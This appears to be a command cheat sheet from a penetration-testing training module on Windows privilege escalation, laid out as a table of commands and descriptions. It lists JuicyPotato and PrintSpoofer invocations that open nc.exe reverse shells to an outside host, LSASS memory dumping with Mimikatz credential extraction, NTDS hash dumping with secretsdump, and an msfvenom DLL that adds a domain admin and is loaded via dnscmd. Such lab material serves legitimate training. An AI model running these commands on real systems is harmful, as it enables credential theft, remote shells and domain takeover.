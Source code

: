 | **Command**                                                                                                                                                                           | **Description**                                            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------- |
| `mssqlclient.py sql_dev@10.129.43.30 -windows-auth`                                                                                                                                   | Connect using mssqlclient.py                               |
| `enable_xp_cmdshell`                                                                                                                                                                  | Enable xp\_cmdshell with mssqlclient.py                    |
| `xp_cmdshell whoami`                                                                                                                                                                  | Run OS commands with xp\_cmdshell                          |
| `c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *`                                                             | Escalate privileges with JuicyPotato                       |
| `c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`                                                                                                               | Escalating privileges with PrintSpoofer                    |
| `procdump.exe -accepteula -ma lsass.exe lsass.dmp`                                                                                                                                    | Take memory dump with ProcDump                             |
| `sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords`                                                                                                                         | Use MimiKatz to extract credentials from LSASS memory dump |
| `dir /q C:\backups\wwwroot\web.config`                                                                                                                                                | Checking ownership of a file                               |
| `takeown /f C:\backups\wwwroot\web.config`                                                                                                                                            | Taking ownership of a file                                 |
| `Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ \| select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}`                                             | Confirming changed ownership of a file                     |
| `icacls “C:\backups\wwwroot\web.config” /grant htb-student:F`                                                                                                                         | Modifying a file ACL                                       |
| `secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`                                                                                                            | Extract hashes with secretsdump.py                         |
| `robocopy /B E:\Windows\NTDS .\ntds ntds.dit`                                                                                                                                         | Copy files with ROBOCOPY                                   |
| `wevtutil qe Security /rd:true /f:text \| Select-String "/user"`                                                                                                                      | Searching security event logs                              |
| `wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 \| findstr "/user"`                                                                                       | Passing credentials to wevtutil                            |
| `Get-WinEvent -LogName security \| where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } \| Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}` | Searching event logs with PowerShell                       |
| `msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll`                                                                              | Generate malicious DLL                                     |
| `dnscmd.exe /config /serverlevelplugindll adduser.dll`                                                                                                                                | Loading a custom DLL with dnscmd                           |
| `wmic useraccount where name="netadm" get sid`                                                                                                                                        | Finding a user's SID                                       |
| `sc.exe sdshow DNS`                                                                                                                                                                   | Checking permissions on DNS service                        |
| `sc stop dns`                                                                                                                                                                         | Stopping a service                                         |
| `sc start dns`                                                                                                                                                                        | Starting a service                                         |